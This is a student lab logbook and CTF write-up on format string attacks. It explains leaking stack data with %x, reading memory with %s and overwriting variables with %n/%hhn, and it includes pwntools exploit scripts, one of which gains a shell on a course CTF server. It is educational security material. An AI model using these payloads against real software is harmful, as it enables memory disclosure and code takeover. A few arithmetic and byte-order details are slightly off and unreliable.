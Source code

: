 ## Task 1

As you can see in the screen shot, by including a sequence of %s in our file, we were able to crash the program. This happened because printf will interpret every %s as a pointer to a string. Eventually it will try to access an invalid adress which will make the program crash.

[Logbook 6 - Task 1](/screenshots/logbook6-task1.png)

## Task 2a

We adapted the python script that was provided to print a series of %x. It wasn't until the 64th print, that we got our 4 byte number, which was 0x11141114.

[Logbook 6 - Task 2a](/screenshots/logbook6-task2a.png)

## Task 2b

Now that we know where our number was stored, we can replace it with the secret message's address and print out it's value. To do that we printed the %x format specifier 63 times and on the 64th time we printed out the %s format specifier, to print the string contained in that address.

[Logbook 6 - Task 2b - Part 1](/screenshots/logbook6-task2b-1.png)

[Logbook 6 - Task 2b - Part 2](/screenshots/logbook6-task2b-1.png)

## Task 3a

In order to change the value of the target variable, we will take advantage of the %n format specifier, that writes in a pointed location the number of characters printed until then. To do this, first we set our first 4 bytes to be the address of the target variable, in our case it was 0x080e5068. Then, since we know we need 64 %x format specifiers to access that value, we add those to the format string, followed by the %n format specifier. This way we were able to change the target variable's value (see screenshot).

[Logbook 6 - Task 3a](/screenshots/logbook6-task3a.png)

## Task 3b

In order to change the target variable's value to 0x5000, we need to add padding to the last %x format specifier. So, first we subtract the previously obtained target variable's value, that is now altered to be, in our case, 0x23c from 0x5000, which gives us 0x4dc4 (0x5000-0x23=0x4dc4). To recap, we set the first 4 bytes to be the address of the target variable, then we add 63 %x format specifiers to the string, and this time, the 64th %x will have a padding of 0x4dc4+8 (we need to add 8 because that format specifier was already printing an 8 bytes long string). In decimal value this translates to the following specifier %19916x. After running our altered code we get the intended result (see screenshots).

[Logbook 6 - Task 3b](/screenshots/logbook6-task3b.png)

## CTF

### Challenge 1

The challenge here was to access the contents of the flag variable.

First we obtained the address of the flag variable, using the gdb. Then we determined the position of our buffer. We did this by inputting a value and then a sequence of %x format specifiers until the hexadecimal value of our input appeared. We realized the offset of our buffer was 0 (it appeared when we printed the first %x) and so, the answer to our problem was simple: the address of the flag variable + the %s format specifier, to access the value of that address. We used the following script:

```python
from pwn import *
# import ctypes
# adress = 0x804c060c
# ctypes.cast(address, ctypes.py_object).value

LOCAL = True
N=32
content = bytearray(0x0 for i in range(N))
number  = 0x804c060

content[0:4]  =  (number).to_bytes(4,byteorder='little')
s="%s"
content[4:5]=(s).encode('latin-1')

if LOCAL:
    p = process("./program")
    #pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(content)
p.interactive()
```
### Challenge 2

In this problem we wanted to change the value of the key variable, to be 0xbeef. Once that was done a shell was executed and we could access the flag file.

In order to do this we first obtained the address of the key variable using the gdb. After that once again we discovered the offset of our buffer was 0. Using that knowledge we used the %hhn format specifier to write the values we wanted into our address. To do this we split 0xbeef into two values, 0xbe and 0xef and wrote them respectively into the key variable's address (0x0804c034 in our case) and that address+1 (0x0804c035), using the %hhn format specifier, that writes 1 short integer(1 byte).After running our script we gained access to the shell and accessed the flag file.
The script we used was the following:

```python
from pwn import *
import sys

LOCAL = False
N=32
content = bytearray(0x0 for i in range(N))
number  = 0x0804c034
content[0:4]  =  (number).to_bytes(4,byteorder='little')
number  = 0x0804c035
content[4:8]  =  (number).to_bytes(4,byteorder='little')
s="%182c%hhn%49c%1$hhn\n"
content[8:8+len(s)]=(s).encode('latin-1')
if LOCAL:
    p = process("./program")
    #pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"here...")
p.sendline(content)
p.interactive()
```